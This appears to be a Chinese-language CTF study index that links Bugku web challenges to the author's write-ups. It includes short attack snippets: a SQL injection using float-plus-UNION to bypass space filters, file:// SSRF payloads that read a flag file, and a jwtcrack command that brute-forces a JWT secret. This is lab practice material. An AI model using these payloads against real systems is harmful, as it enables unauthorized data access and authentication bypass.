 1、[[ezbypass-cat]] ----白名单目录穿透
2、[[very_easy_sql]]  ----------[[ssrf]]利用gopher协议+sql注入的cookie盲注













#### 1、[https://ctf.bugku.com/challenges/detail/id/406.html](https://ctf.bugku.com/challenges/detail/id/406.html%E3%80%81)
题解：[[2、ctf-websqli-0x1-bugku题解]]
```sql
mysql> select * from test where id=-1e0union select 3,'huhu';
+------+------+
| id   | name |
+------+------+
|    3 | huhu |
+------+------+
1 row in set (0.00 sec)
```

注意：对于mysqli来说query方法可以执行insert
学到的东西：
```sql
#使用浮点数加union的方式绕过空格，使用order by查询第一行数据
select * from users where username=1E0'unoin select * from users order by username desc
select * from users where username=1E0'unoin insert

```
[[sql注入绕过]]
#### 2、baby lfi 2
https://ctf.bugku.com/challenges/detail/id/426.html
题解：[[1、baby lfi 2题解]]
#### 3、nextGen2
https://ctf.bugku.com/challenges/detail/id/431.html
```
//以下三个的效果是一样的
file:///flag.txt
file://127.0.0.1/flag.txt
file://127.0.1/flag.txt
```
#### 4、whois
https://ctf.bugku.com/challenges/detail/id/432.html
[[whois题解]]

#### 1、just-work-type
注意：这个token由三部分组成以.分割，前两个部分是由base64编码的（注意万能解密工具中的那个base64编码可能没法用，用小葵，然后，破解密码的工具在kali中）
破解密码工具使用方法如下：
```
┌──(root㉿kali)-[~/桌面/c-jwt-cracker-master]
└─# ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOnsiYWRtaW4iOmZhbHNlLCJkYXRhIjp7InVzZXJuYW1lIjoiem9tYm8iLCJwYXNzd29yZCI6InpvbWJvIn19LCJpYXQiOjE3MDE2ODAxNDcsImV4cCI6MTcwMTY4Mzc0N30.d8DbLwxb3aqXtc2a8DsZOuAXFruBWbWYr8YaGF-ig5I
Secret is "123"
                             
```
[[json web token绕过思路]]

#### 1、ez_curl:
[[ez_curl题解]]
#### 2、unseping：
https://blog.csdn.net/weixin_62871152/article/details/127651737
[[unseping题解]]

